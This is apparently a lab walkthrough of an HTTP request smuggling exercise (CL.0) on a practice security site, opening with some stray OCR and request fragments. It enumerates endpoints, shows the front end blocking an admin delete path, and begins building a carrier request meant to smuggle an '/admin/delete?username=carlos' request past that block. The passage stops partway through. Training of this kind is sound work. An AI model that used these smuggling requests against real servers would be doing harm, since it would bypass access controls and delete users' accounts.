 csrf=tIBFEReW1l5UCOO0L0naEobAtmRps3Xj&postId=6&comment=test+123&name=123&email=clea@token.com&website=https://bs.com
```
```
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
```




```


# **CL.0 request smuggling**
https://portswigger.net/web-security/request-smuggling/browser/cl-0

1. we start by exploring possible endpoint to exploit:
```
/
/post?postId=x
/login 
/resources/images/x.svg
```

as lab description implies: any of those endpoints could be sitting in a different back-end server, maybe the one with vularbility, so we will check our payload on all of them.


lets also check the blocking mechanism by calling the delete link within the admin panel:
```
request:
POST /admin/delete?username=carlos HTTP/1.1
Host: 0ae4006204a47aebc0c9a0a2002900ef.web-security-academy.net

response:
HTTP/1.1 403 Forbidden
..
"Path /admin/delete is blocked"
```
(this is the Front-End Path-blocking us from reaching restricted areas)


2. craft a Probe for a CL.0 (basicly a CL:TE without the TE or something similar):

since we deal with back end server who ignores CL (so it will TE even without explicit order)  - we will leave the Burps **Update Content length** option checked. 

for the **carrier request** we will start by striping redundent headers for clean structure:
```
POST / HTTP/1.1
Host: 0ae4006204a47aebc0c9a0a2002900ef.web-security-academy.net
Cookie: session=I60GZDQYEO0y8V8YuTucPs9FQhArLUMl
Connection: close
Content-Length: 0
```
change **Connection:** header to **keep-alive** (to support our smuggled request)
